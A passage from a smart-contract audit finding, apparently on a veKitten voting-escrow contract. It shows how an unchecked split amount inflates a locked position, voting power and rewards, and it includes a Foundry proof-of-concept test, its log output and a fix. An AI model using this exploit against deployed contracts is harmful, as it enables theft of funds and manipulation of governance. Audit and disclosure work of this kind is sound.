 ```solidity
            _tokenId2,
            msgSender,
            uint(uint128(locked[_tokenId1].amount)),
            uint(uint128(_splitAmount)),
            _locked.end,
            block.timestamp
        );
    }
```

This can be abused by initially depositing a small amount of tokens, then calling `split` with an arbitrary amount to create a large `locked` data. Then can be withdrawn at the end of the lock period, and also grants an arbitrary amount of voting power and balance, which can be used to claim rewards from gauges and bribes.

PoC :

```solidity
    function testSplitVeKittenUnderflow() public {
        testDistributeVeKitten();

        vm.startPrank(user1);

        uint veKittenId = veKitten.tokenOfOwnerByIndex(user1, 0);
        (int128 lockedAmount, uint endTime) = veKitten.locked(veKittenId);

        (uint t1, uint t2) = veKitten.split(veKittenId, uint256(uint128(lockedAmount)) * 100);

        (int128 lockedAmountSplit, ) = veKitten.locked(t2);

        console.log("initial token to split locked amount :");
        console.log(lockedAmount);
        console.log("splitted token locked amount :");
        console.log(lockedAmountSplit);

        vm.stopPrank();
    }
```

Log output :

```shell
Logs:
  initial token to split locked amount :
  100000000000000000000000000
  splitted token locked amount :
  10000000000000000000000000000
```

## Recommendations

Validate that the provided `_amount` does not exceed the locked amount of the split token.

---
